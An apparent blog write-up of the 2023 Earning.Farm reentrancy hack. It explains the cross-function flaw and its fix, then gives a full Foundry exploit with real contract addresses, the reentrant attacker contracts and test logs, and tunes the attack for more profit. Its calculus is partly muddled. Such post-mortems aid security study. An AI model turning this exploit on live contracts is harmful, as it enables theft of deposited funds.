

# \[Web3 Hack Writeup Series - 1] A special reentrancy of Earning.Farm at 20230809

## 0. Introduction

This is the first article in my Web3 Hack Writeup series, where I'll be sharing writeups about DeFi attack incidents from the fantastic web3 security project on [GitHub - SunWeb3Sec/DeFiHackLabs: Reproduce DeFi hacked incidents using Foundry](https://github.com/SunWeb3Sec/DeFiHackLabs). My goal is to document my journey of learning web3 security and hopefully, provide valuable insights for those interested in this field. I truly hope that our contributions will help make the web3 space more secure, furthering the realization of the decentralized utopia.

Without further ado, let's dive in.

## 1. Attack Overview

First, let's take a look at the information related to this attack:

<figure><figcaption></figcaption></figure>

As you can see, this was a reentrancy attack with a value of 154 WETH (\~286K USD). However, hold on... Wasn't the "withdraw" function protected by the "nonReentrant" modifier? Why did the reentrancy still occur?

This is precisely what makes this reentrancy attack unique. Let's carefully analyze the workflow of the attack transaction and the corresponding code. I believe you'll understand everything afterward.

## 2. Workflow Analysis <a href="#heading-2-workflow-analysis" id="heading-2-workflow-analysis"></a>

I'll be using [Phalcon.xyz](http://phalcon.xyz/) to analyze the attack flow. （[Phalcon.xyz](http://phalcon.xyz/) is a powerful transaction explorer designed for the DeFi community by [BlockSec](https://blocksec.com/). [Phalcon.xyz](http://phalcon.xyz/) has powerful transaction debugging capabilities, it provides comprehensive data on invocation flow, source code, balance changes, and transaction fund flows.）

<figure><figcaption></figcaption></figure>

I admit that this image can be overwhelming at first glance. For the sake of easier comprehension, you can also refer to the version of the diagram with a simple function call without parameters.

<figure><figcaption></figcaption></figure>

Lines 1-6: The attacker initiated a flashloan from Uniswap V3, borrowing 0 USDC and 10,000 WETH.

Starting from Line 7, the attacker invoked the standard interface within his own contract - "uniswapV3FlashCallback" (this is the standard process for executing a flashloan, where anyone borrowing a flashloan completes their desired operations with the borrowed funds and fees within this function before returning the funds + fees to Uniswap).

In Line 12, the attacker approved the ENF\_ETHLEV contract (the Vault contract of [Earning.Farm](http://earning.farm)) to access his funds. Simultaneously, in Line 16, the current ether amount within ENF\_ETHLEV is read.

In Line 62, the attacker deposited an amount of ether equal to the totalAssets of ENF\_ETHLEV, resulting in the attacker obtaining half of the LP shares from the entire pool.

In Line 595, the attacker called the "withdraw" function of ENF\_ETHLEV, and this is where the reentrancy starts:

In Line 065, the attacker received the ether returned by ENF\_ETHLEV and, **in Line 068, initiated a reentry into ENF\_ETHLEV, requesting a "transfer" of the attacker's LP shares to another account of the attacker.**

An important detail to note is that the attacker did not transfer all of the LP shares to the other account; he only transferred LP shares minus 1000.

### **\[\*] Detailed Analysis of Reentrancy:**

At this point, we temporarily pause the analysis of the workflow and turn our attention to the source code of ENF\_ETHLEV to understand the reasons behind the occurrence of reentrancy.

<figure><figcaption></figcaption></figure>

The contract withdraws the ether in Line 135 before updating the account's LP share balance in Lines 140 and 142. As we've deduced from our earlier analysis, during the withdrawal operation in Line 135, the attacker's "receive()" function has already reentered the ENF\_ETHLEV contract, transferring LP shares minus 1000 to another attack account. When the logic reaches Line 140, it realizes that the attacker's account now has only 1000 shares left, so it only burns this small portion.

Although the withdraw() function uses a "nonReentrant" modifier, the attacker didn't re-enter the withdraw function; instead, they re-entered the "transfer" function of the same contract. This renders the "nonReentrant" protection ineffective.

So, what should developers do to avoid this type of reentrancy? One suggestion is to follow the "check-effect-interaction" pattern. In the case of this attack, the code should first execute the checks and burn operations in Lines 140 and 142 before calling the withdrawal functionality in Line 135. This way, there won't be a situation where a user has already withdrawn but can still transfer LP share units through reentrancy and then withdraw again.

Returning to the flow, we notice an unknown call from an unknown contract in Line 73, which is the other attack contract deployed by the attacker. In Line 598, this attack contract receives the LP shares it got earlier (approximately half of the pool). At this point, the pool only has the original 320 ether remaining, so the attacker can withdraw 159 ether.

At this point, the attack is essentially concluded. Afterward, the attacker still needs to repay the flashloan.

## 3. PoC

Next, we'll replicate the attack process within the Foundry framework. If you're not familiar with Foundry, you can refer to its [documentation](https://book.getfoundry.sh/).

All the code can be found on my [GitHub](https://github.com/descartes100/Web3Hack).

#### **Environment Setup**

* Interface: Prepare the necessary interface for ENF\_ETHLEV.
* Contract Interaction: Set the addresses for WETH, Uniswap V3, ENF\_ETHLEV, and Controller contracts.
* Fork Blockchain: Request an RPC URL from a node service provider like Alchemy, and set the fork block number to the moment when the attack occurred.

```solidity
interface IENF_ETHLEV is IERC20 {
    function deposit(uint256 assets, address receiver) external payable returns(uint256);
    function withdraw(uint256 assets, address receiver) external returns(uint256);
    function convertToAssets(uint256 shares) external view returns(uint256);
    function totalAssets() external view returns(uint256);
}

/**
 * Contract address: 0xfe141c32e36ba7601d128f0c39dedbe0f6abb983
 */
contract ContractTest is Test {
    IWFTM WETH = IWFTM(payable(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2));
    Uni_Pair_V3 Pair = Uni_Pair_V3(0x88e6A0c2dDD26FEEb64F039a2c41296FcB3f5640);
    IENF_ETHLEV ENF_ETHLEV = IENF_ETHLEV(0x5655c442227371267c165101048E4838a762675d);
    address Controller = 0xE8688D014194fd5d7acC3c17477fD6db62aDdeE9;
    Exploiter exploiter;

    function setUp() public {
        vm.createSelectFork("mainnet", 17875885);
    }
}
```

#### **testExploit()**

* Attack logic is usually written in functions that start with "test." This function will be executed during testing.
* Initialize the Exploiter contract and execute the flashloan.

```solidity
function testExploit() external {
        deal(address(this), 0);
        emit log_named_decimal_uint(
            "[*] Attacker WETH balance before exploit", WETH.balanceOf(address(this)), WETH.decimals()
        );

        exploiter =  new Exploiter();
        emit log_string("==================== Start of attack ====================");
        Pair.flash(address(this), 0, 10_000 ether, abi.encode(10_000 ether));
        emit log_string("==================== End of attack ====================");
        emit log_named_decimal_uint(
            "[*] Attacker WETH balance after exploit", WETH.balanceOf(address(this)), WETH.decimals()
        );
    }
```

#### **uniswapV3FlashCallback()**

* In this function, we'll implement the interaction with ENF\_ETHLEV after borrowing 10,000 ETH via flashloan. Essentially, this translates our workflow analysis from part 2 into code.
* Withdraw the WETH obtained from the flashloan back to ETH in this account.
* Read the existing assets in the ENF\_ETHLEV contract.
* Deposit an equivalent amount of ETH into the ENF\_ETHLEV contract.
* Call ENF\_ETHLEV's convertToAssets function to read the current LP shares.
* Call ENF\_ETHLEV's withdraw function (where the reentrancy occurs) to withdraw all ETH.
* The Exploiter (another attack contract) executes a withdrawal using the LP shares just received to obtain the corresponding amount of ETH.
* Repay the flashloan.

```solidity
function uniswapV3FlashCallback(uint256 fee0, uint256 fee1, bytes calldata data) external {
        emit log_named_decimal_uint('[*] fee1', fee1, 18);

        WETH.withdraw(WETH.balanceOf(address(this)));
        ENF_ETHLEV.approve(address(ENF_ETHLEV), type(uint).max);
        uint256 assets = ENF_ETHLEV.totalAssets();
        emit log_named_decimal_uint("[*] Attacker's ether balance at the start", address(this).balance, 18);

        ENF_ETHLEV.deposit{value: assets}(assets, address(this)); 
        emit log_named_decimal_uint("[*] Attacker's ether balance after deposit", address(this).balance, 18);
        emit log_named_decimal_uint("[*] Attacker's LP share after deposit", ENF_ETHLEV.balanceOf(address(this)), ENF_ETHLEV.decimals());

        uint256 assetsAmount = ENF_ETHLEV.convertToAssets(ENF_ETHLEV.balanceOf(address(this)));
        ENF_ETHLEV.withdraw(assetsAmount, address(this)); 
        emit log_named_decimal_uint("[*] Attacker's LP share after withdrawing", ENF_ETHLEV.balanceOf(address(this)), ENF_ETHLEV.decimals());
        emit log_named_decimal_uint("[*] Attacker ether balance after withdrawing", address(this).balance, 18);

        exploiter.withdraw(); 

        WETH.deposit{value: address(this).balance}();
        emit log_named_decimal_uint("[*] Attacker's total WETH after attack", WETH.balanceOf(address(this)), WETH.decimals());

        uint256 amount = abi.decode(data, (uint256));
        WETH.transfer(address(Pair), fee1 + amount); 
        emit log_named_decimal_uint("[*] Attacker's total WETH after payback flashloan", WETH.balanceOf(address(this)), WETH.decimals());
    }       

    receive() external payable {
        if (msg.sender == Controller) {
            ENF_ETHLEV.transfer(address(exploiter), ENF_ETHLEV.balanceOf(address(this))-1000);
        }
       
    }
```

#### **receive()**

This is the crucial point where the attacker implements the reentrancy. When the Controller attempts to transfer funds to the attacker's contract, the attacker's "receive" function reentrant the contract's "transfer" function, transferring away the LP tokens.

```solidity
    receive() external payable {
        if (msg.sender == Controller) {
            ENF_ETHLEV.transfer(address(exploiter), ENF_ETHLEV.balanceOf(address(this))-1000);
        } 
    }
```

#### **contract Exploiter**

This is the attacker's other contract, which, upon receiving the LP tokens, proceeds to withdraw the corresponding share of ether from ENF\_ETHLEV.

```solidity
/**
 * Contract address: 0xcfd26fe5fe6028539802275c1cc6e9325aa2e3b7
 */
contract Exploiter {
    IENF_ETHLEV ENF_ETHLEV = IENF_ETHLEV(0x5655c442227371267c165101048E4838a762675d);
    function withdraw() external {
        ENF_ETHLEV.approve(address(ENF_ETHLEV), type(uint).max);
        uint256 assetsAmount = ENF_ETHLEV.convertToAssets(ENF_ETHLEV.balanceOf(address(this)));
        ENF_ETHLEV.withdraw(assetsAmount, address(this));
        payable(msg.sender).transfer(address(this).balance);
    }

    receive() external payable {}
}
```

#### **Implementation**

```markdown
forge test --contracts ./test/20230809_EarningFram_exp.t.sol -vvv
```

#### **Results**

```markdown
Running 1 test for test/20230809_EarningFarm_exp.t.sol:ContractTest
[PASS] testExploit() (gas: 4106719)
Logs:
  [*] Attacker WETH balance before exploit: 0.000000000000000000
  ==================== Start of attack ====================
  [*] fee1: 5.000000000000000000
  [*] Attacker's ether balance at the start: 10000.000000000000000000
  ETH Vault:  320599650531622753094
  ETH transferred to cont
  Current Total:  320599650531622753094
  Controller:  320599650531622753094
  Exchange input:  1017776668354357946330 1017776668354357946330
  Exchange curve:  0xDC24316b9AE028F1497c275EB9192a3Ea0f67022
  Exchange:  1017475739806761189725 1017776668354357946330
  [*] Attacker's ether balance after deposit: 9679.400349468377246906
  [*] Attacker's LP share after deposit: 295.761225721251919241
  Cont Withdraw:  320097773741366419079 320097773741366419079
  [*] Attacker's LP share after withdrawing: 0.000000000000000000
  [*] Attacker ether balance after withdrawing: 9999.498123209743665985
  Cont Withdraw:  159826149929020750293 159826149929020750293
  [*] Attacker's total WETH after attack: 10159.324273138764416278
  [*] Attacker's total WETH after payback flashloan: 154.324273138764416278
  ==================== End of attack ====================
  [*] Attacker WETH balance after exploit: 154.324273138764416278
```

Yeah! We successfully replicated the attack!

## 4. Possible Alternative Attack Methods

This section discusses various approaches to achieving the reentrancy attack.

### 1. Starting with 10,000 ether?

Initially, the attacker borrowed 10,000 ether from Uniswap V3. However, as we later discovered in the analysis, the attacker only used 320 ether. Therefore, we can reduce the amount of borrowed ether to lower the cost. Borrowing 321 ether would yield a profit of 159 ethers:

```markdown
Running 1 test for test/20230809_EarningFarm_exp_2.t.sol:ContractTest
[PASS] testExploit() (gas: 4106719)
Logs:
  [*] Attacker WETH balance before exploit: 0.000000000000000000
  ==================== Start of attack ====================
  [*] fee1: 0.160500000000000000
  [*] Attacker's ether balance at the start: 321.000000000000000000
  ETH Vault:  320599650531622753094
  ETH transferred to cont
  Current Total:  320599650531622753094
  Controller:  320599650531622753094
  Exchange input:  1017776668354357946330 1017776668354357946330
  Exchange curve:  0xDC24316b9AE028F1497c275EB9192a3Ea0f67022
  Exchange:  1017475739806761189725 1017776668354357946330
  [*] Attacker's ether balance after deposit: 0.400349468377246906
  [*] Attacker's LP share after deposit: 295.761225721251919241
  Cont Withdraw:  320097773741366419079 320097773741366419079
  [*] Attacker's LP share after withdrawn: 0.000000000000000000
  [*] Attacker ether balance after withdrawing: 320.498123209743665985
  Cont Withdraw:  159826149929020750293 159826149929020750293
  [*] Attacker's total WETH after attack: 480.324273138764416278
  [*] Attacker's total WETH after payback flashloan: 159.163773138764416278
  ==================== End of attack ====================
  [*] Attacker WETH balance after exploit: 159.163773138764416278

Test result: ok. 1 passed; 0 failed; finished in 1.34s
```

As observed, this earns 5 ethers more than borrowing 10,000 ethers due to reduced borrowing costs. (Although the hacker might not care about these 5 ethers, right? :))

### 2. Why “share - 1000”?

We noticed that the attacker transferred "share - 1000" to another contract during reentrancy. What's the purpose behind this choice?

Looking at the ENF\_ETHLEV contract code, if the attacker were to transfer all shares to another contract, leaving their balance at 0, it shouldn't trigger an error. Then, using another contract to withdraw all the shares, theoretically, the attacker could obtain more ETH than with "share - 1000". Let's implement this.

```markdown
Running 1 test for test/20230809_EarningFarm_exp_3.t.sol:ContractTest
[PASS] testExploit() (gas: 4086738)
Logs:
  [*] Attacker WETH balance before exploit: 0.000000000000000000
  ==================== Start of attack ====================
  [*] fee1: 5.000000000000000000
  [*] Attacker's ether balance at the start: 10000.000000000000000000
  ETH Vault:  320599650531622753094
  ETH transferred to cont
  Current Total:  320599650531622753094
  Controller:  320599650531622753094
  Exchange input:  1017776668354357946330 1017776668354357946330
  Exchange curve:  0xDC24316b9AE028F1497c275EB9192a3Ea0f67022
  Exchange:  1017475739806761189725 1017776668354357946330
  [*] Attacker's ether balance after deposit: 9679.400349468377246906
  [*] Attacker's LP share after deposit: 295.761225721251919241
  Cont Withdraw:  320097773741366419079 320097773741366419079
  [*] Attacker's LP share after withdrawing: 0.000000000000000000
  [*] Attacker ether balance after withdrawing: 9999.498123209743665985
  Cont Withdraw:  159826149929020750564 159826149929020750564
  [*] Attacker's total WETH after attack: 10159.324273138764416549
  [*] Attacker's total WETH after payback flashloan: 154.324273138764416549
  ==================== End of attack ====================
  [*] Attacker WETH balance after exploit: 154.324273138764416549

Test result: ok. 1 passed; 0 failed; finished in 1.34s
```

it turns out that this approach indeed generates slightly more profit than the original.

### 3. Is depositing an equal amount of ETH to the ENF\_ETHLEV contract the optimal choice?

At this point, we need to introduce a bit of mathematics.

(1) Suppose the original contract's ETH balance is x. The ETH deposited by the attacker is y, and at this point, the LP share owned by the attacker is `y/(x+y)`.

(2) The attacker withdraws y ethers and transfers all LP shares to another contract.

(3) The other contract now holds LP shares equal to `y/(x+y)`. At this moment, the original contract has x ethers. Therefore, the other contract can withdraw `x*y/(x+y)` ethers, which constitutes the attacker's profit.

Now our problem is transformed into:

* The Expression: We want to maximize `f(y) = x * y / (x + y)`.
* The Constraint: We have a fixed value for x.
* Maximization: We want to find the value of y that maximizes f(y).

Next, we just need to do some calculus. If you're not interested, feel free to skip directly to the conclusion section :)

1. Take the derivative of the function with respect to y:

`f'(y) = (x*(x + y) - x*y) / (x + y)^2`

1.  Set the derivative equal to zero and solve for y:

    `(x*(x + y) - x*y) / (x + y)^2 = 0`
2.  Simplify the equation:

    `x*(x + y) - xy = 0`

    `x^2 + xy - x*y = 0`

    `x^2 = 0`
3.  Solve for y:

    Since `x^2` is always greater than or equal to zero, there is no real solution for y that would make the derivative equal to zero. This means that the function does not have any critical points where the derivative is zero.
4.  Analyze the sign of the derivative:

    Since the derivative is never zero, you need to determine its sign. Plug in a value of y greater than zero (e.g., y = 1) into the derivative:

    `f'(1) = (x*(x + 1) - x*1) / (x + 1)^2`

    `= (x^2 + x - x) / (x + 1)^2`

    `= x^2 / (x + 1)^2`\
    Since `x^2` is always positive and `(x + 1)^2` is always positive (as both are squares), `f'(1)` is positive. This means that the function is increasing for y > 0.
5.  Determine the behavior as y approaches infinity:

    As y approaches infinity, the value of `f(y)` approaches x because the `x*y` term dominates the denominator `(x + y)`. This is because y grows much larger compared to x, and `y/(x + y)` becomes negligible.
6.  Maximize the function:

    Since the function is increasing for `y > 0` and approaches x as y approaches infinity, you can conclude that the maximum value of the function f(y) is x.

    **In conclusion, to maximize the function x\*y / (x + y) with a known value of x, set y to infinity. This will result in the maximum value of x.**

Let's go back to the ENF\_ETHLEV contract code and find that it has a maximum limit for the amount of ETH deposited by users, set at maxDeposit, which is 500 ether.

So, let's attempt to deposit 500 ether and perform the attack once again.

```markdown
Running 1 test for test/20230809_EarningFarm_exp_4.t.sol:ContractTest
[PASS] testExploit() (gas: 4014028)
Logs:
  [*] Attacker WETH balance before exploit: 0.000000000000000000
  ==================== Start of attack ====================
  [*] fee1: 5.000000000000000000
  [*] Attacker's ether balance at the start: 10000.000000000000000000
  ETH Vault:  500000000000000000000
  ETH transferred to cont
  Current Total:  320599650531622753094
  Controller:  500000000000000000000
  Exchange input:  1587301587301587301587 1587301587301587301587
  Exchange curve:  0xDC24316b9AE028F1497c275EB9192a3Ea0f67022
  Exchange:  1586566199378081035496 1587301587301587301587
  [*] Attacker's ether balance after deposit: 9500.000000000000000000
  [*] Attacker's LP share after deposit: 461.262551644732899788
  Cont Withdraw:  498953010905994930719 498953010905994930719
  [*] Attacker's LP share after withdrawing: 0.000000000000000000
  [*] Attacker ether balance after withdrawing: 9998.953010905994930719
  Cont Withdraw:  194540896679317921776 194540896679317921776
  [*] Attacker's total WETH after attack: 10193.493907585312852495
  [*] Attacker's total WETH after payback flashloan: 188.493907585312852495
  ==================== End of attack ====================
  [*] Attacker WETH balance after exploit: 188.493907585312852495

Test result: ok. 1 passed; 0 failed; finished in 1.34s
```

In this case, our profit would be 188 ether, which is 34 ether higher than the initial 154 ether. This optimization is indeed valuable.

## 5. Conclusion

1. The use of the nonReentrancy modifier does not necessarily prevent reentrancy issues, as reentrancy can occur across different functions within the same contract. It is crucial to adhere to the check-effect-interaction principle whenever possible!
2. The initial attack flow may not always be optimal. Optimizing both cost and profit could potentially lead to better attack outcomes. This requires a more detailed analysis of the contract, along with the application of certain mathematical tools.

## Reference

1. [https://github.com/SunWeb3Sec/DeFiHackLabs](https://github.com/SunWeb3Sec/DeFiHackLabs)
2. [https://twitter.com/Phalcon\_xyz/status/1689182459269644288](https://twitter.com/Phalcon\_xyz/status/1689182459269644288)
3. [https://explorer.phalcon.xyz/tx/eth/0x6e6e556a5685980317cb2afdb628ed4a845b3cbd1c98bdaffd0561cb2c4790fa](https://explorer.phalcon.xyz/tx/eth/0x6e6e556a5685980317cb2afdb628ed4a845b3cbd1c98bdaffd0561cb2c4790fa)
4. [https://github.com/descartes100/Web3Hack](https://github.com/descartes100/Web3Hack)

I am thankful for the contribution of [@1nf0s3cpt](https://twitter.com/1nf0s3cpt) and numerous other web3 developers to the DeFiHackLabs project. I have gained substantial benefits from it, and it stands as the best web3 security learning resource up to this point. Special thanks to [@Phalcon\_xyz](https://twitter.com/Phalcon\_xyz) for providing the powerful debugging transaction tool, which significantly facilitates the analysis of attack cases.

Appreciation goes out to all readers who have come this far! If you have any questions or ideas, please feel free to discuss them in the comments section or reach out to me on [Twitter](https://twitter.com/snow\_elven). Your feedback matters to me, and I truly look forward to engaging with each of my readers in the conversation!
